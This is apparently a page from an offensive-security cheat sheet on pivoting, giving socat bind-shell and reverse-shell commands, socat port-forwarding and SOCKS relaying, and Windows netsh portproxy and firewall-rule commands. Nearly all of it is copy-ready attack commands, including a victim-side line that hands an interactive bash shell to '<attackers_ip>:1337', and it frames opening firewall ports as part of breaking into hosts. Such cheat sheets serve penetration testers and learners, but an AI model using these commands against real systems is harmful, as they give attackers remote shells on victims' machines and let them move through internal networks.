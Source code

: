 












### Socat

### Bind shell

```bash
victim> socat TCP-LISTEN:1337,reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane
attacker> socat FILE:`tty`,raw,echo=0 TCP4:<victim_ip>:1337
```

### Reverse shell

```bash
attacker> socat TCP-LISTEN:1337,reuseaddr FILE:`tty`,raw,echo=0
victim> socat TCP4:<attackers_ip>:1337 EXEC:bash,pty,stderr,setsid,sigint,sane
```

### Port2Port

```bash
socat TCP4-LISTEN:<lport>,fork TCP4:<redirect_ip>:<rport> &
```

### Port2Port through socks

```bash
socat TCP4-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678
```

### Netsh <a href="#netsh" id="netsh"></a>

Netsh is a **built-in Windows CLI binary** which amongst other things can be used to port forward. This example will listen on 10.55.1.21 interface on port 5446 and will forward requests hitting 5446 off to 10.55.1.20 port 5985.

```bash
netsh interface portproxy add v4tov4 listenport=5446 listenaddress=10.55.1.21 connectport=5985 connectaddress=10.55.1.20
```

You can also use netsh to open ports on the firewall, which you may need to do when you smash open one of these ports.

```bash
netsh advfirewall firewall add rule name=fwd dir=in action=allow protocol=TCP localport=5446
```

## Other resources

